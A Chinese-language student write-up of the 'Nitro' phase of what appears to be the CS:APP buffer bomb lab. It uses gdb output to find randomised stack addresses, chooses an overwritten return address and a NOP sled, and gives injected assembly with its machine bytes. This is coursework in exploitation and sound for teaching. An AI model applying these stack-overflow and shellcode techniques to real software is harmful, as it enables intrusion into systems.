 
## Nitro Phase

### getbufn

0x208+0x4+0x4 = 528 bytes

多次运行 launcher() -> launch() -> testn() -> getbufn(), 发现 getbufn 的 %ebp 值总在以下 5 个值变化:

(gdb) x/2wx $ebp

-   0x556831b0 <_reserved+1036720>: 0x556831e0  0x08048e15
-   0x55683130 <_reserved+1036592>: 0x55683160  0x08048e15
-   0x55683150 <_reserved+1036624>: 0x55683180  0x08048e15
-   0x556831e0 <_reserved+1036768>: 0x55683210  0x08048e15
-   0x55683170 <_reserved+1036656>: 0x556831a0  0x08048e15

故 getbufn 的栈帧底部随机分配在 0x55683130 ~ 0x556831e0(偏移量为 176d)范围内.
且 旧%ebp值(testn 栈底) 恒为 新%ebp值(getbufn 栈底)+0x30.
且 正常返回地址恒为 0x08048e15.

故，需将 getbufn 的返回地址覆写为 0x556831e0-0x208 = 0x55682fd8, 且至少插入 176d 个 nop(0x90) 指令.
完成以上 2 个操作，才能确保每次攻击都能奏效.

(gdb) x/132wx $ebp-0x208

### 编写 nitro 攻击指令

为完成此阶段要求:

-   需将 cookie 值送入 %eax, 作为 getbufn 函数的返回值
-   恢复 旧%ebp值
-   恢复 正常返回地址

```asm
; 恢复旧%ebp值
; 由于 旧%ebp值(testn 栈底) 恒为 新%ebp值(getbufn 栈底)+0x30.
; 故, 可通过当前 %esp 所指位置，计算出 testn 的栈底地址
lea 0x28(%esp), %ebp
; 设置返回值为 cookie
movl $0x6898ac90, %eax
; 设置正常的返回地址
pushl $0x08048e15
; 返回至 testn 函数
ret
```

### 生成 nitro 攻击字符串

编写好 attack.s 后, 键入 $ make asm, 获得对应机器字节码:

```asm
8d 6c 24 28             lea    0x28(%esp),%ebp
b8 90 ac 98 68          mov    $0x6898ac90,%eax
68 15 8e 04 08          push   $0x8048e15
c3                      ret
```
